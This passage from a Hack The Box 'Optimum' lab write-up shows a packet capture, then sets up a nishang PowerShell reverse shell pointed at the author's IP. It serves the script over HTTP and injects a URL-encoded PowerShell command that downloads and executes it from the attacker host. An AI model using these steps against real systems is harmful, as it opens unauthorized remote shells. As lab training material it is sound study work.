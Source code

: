 ```sh
14:57:56.863005 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1:194, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 193: HTTP: HTTP/1.1 200 OK
14:57:56.863067 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 194, win 501, options [nop,nop,TS val 516027802 ecr 73644], length 0
14:57:57.064227 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [.], seq 194:1540, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 1346: HTTP
14:57:57.064278 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1540, win 501, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064322 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1540:1654, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 114: HTTP
14:57:57.064332 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1654, win 501, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064393 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [P.], seq 1654:1962, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 308: HTTP
14:57:57.064405 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [.], ack 1962, win 499, options [nop,nop,TS val 516028003 ecr 73644], length 0
14:57:57.064429 IP 10.10.10.8.http > 10.10.16.7.52696: Flags [F.], seq 1962, ack 449, win 257, options [nop,nop,TS val 73644 ecr 516027323], length 0
14:57:57.067712 IP 10.10.16.7.52696 > 10.10.10.8.http: Flags [F.], seq 449, ack 1963, win 501, options [nop,nop,TS val 516028006 ecr 73644], length 0
```
### Initial foothold

I will copy [nishang](https://github.com/samratashok/nishang) shell `Invoke-PowerShellTcp.ps1` to my current directory.

```sh
┌─[george@parrot]─[~/HTB/boxes/optimum]
└──╼ $ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
```
and change the below line to match my IP and port

```sh
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.7 -Port 9001
```
Then I will change the file name to a simple `shell.ps1` and host it using `python3`

```sh
┌─[george@parrot]─[~/HTB/boxes/optimum/www]
└──╼ $ sudo python3 -m http.server 80
[sudo] password for george:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

On my browser, I will issue below command which is already `url` encoded `powershell` command

```php
C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.Webclient).downloadString('http%3a//10.10.16.7%3a80/shell.ps1'
```